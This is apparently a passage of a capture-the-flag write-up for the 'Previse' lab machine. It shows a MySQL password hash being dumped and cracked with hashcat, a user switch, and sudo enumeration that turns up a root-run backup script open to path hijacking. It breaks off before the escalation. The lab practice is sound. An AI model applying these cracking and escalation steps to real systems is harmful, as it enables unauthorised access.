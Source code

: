 ## User flag

From the obtained shell, the first thing I did was get the password hashes from MySQL Database, which had the same credentials as we already saw from the site backup

```plaintext
mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |

```

Using Hashcat and `rockyou.txt`, found password **ilovecody112235!** by using the following command line

```bash
hashcat -a 0 -m 500 passwords /usr/share/wordlists/rockyou.txt
```

With this password for m4lwhere account, was able to connect to the box and read the user flag

```bash
www-data@previse:/var/www/html$ su m4lwhere
Password:
m4lwhere@previse:/var/www/html$ cd ~
m4lwhere@previse:~$ cat user.txt
<redacted>
```

## Root flag

now as `m4lwhere`, started enumeration as usual by running `sudo -l`

```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

by inspecting the contents of this file,

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```
